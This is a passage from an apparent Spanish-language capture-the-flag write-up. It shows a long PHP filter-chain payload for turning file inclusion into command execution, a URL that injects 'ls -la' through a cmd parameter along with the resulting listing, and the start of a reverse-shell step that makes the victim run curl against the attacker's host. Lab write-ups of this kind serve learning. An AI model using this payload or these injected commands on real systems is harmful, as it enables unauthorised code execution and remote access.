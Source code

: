 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
URL = http://<IP>/index.php?cmd=ls -la&search=<CONTENT_GENERATE>
```

Info:

```
total 44
drwxr-xr-x 4 root root 4096 Aug 16 14:53 .
drwxr-xr-x 4 root root 4096 Aug 16 17:38 ..
drwxr-xr-x 4 root root 4096 Aug 16 13:57 assets
-rw-r--r-- 1 root root 1001 Aug 16 14:46 downloads.php
-rw-r--r-- 1 root root 1118 Aug 16 14:46 faq.php
-rw-r--r-- 1 root root  570 Aug 16 14:42 index.php
-rw-r--r-- 1 root root 1155 Aug 16 14:46 login.php
-rw-r--r-- 1 root root 1033 Aug 16 14:45 missions.php
drwxr-xr-x 2 root root 4096 Aug 16 14:18 pages
-rw-r--r-- 1 root root  941 Aug 16 14:47 report.php
-rw-r--r-- 1 root root  323 Aug 16 14:53 secret.txt
```

Veremos que funciona, por lo que haremos lo siguiente.

### Reverse Shell

Primero vamos a comprobar que tenga la herramienta `curl` instalada en la maquina victima.

```
URL = http://<IP>/index.php?cmd=curl http://<IP_HOST>/test&search=<CONTENT_GENERATE>
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...
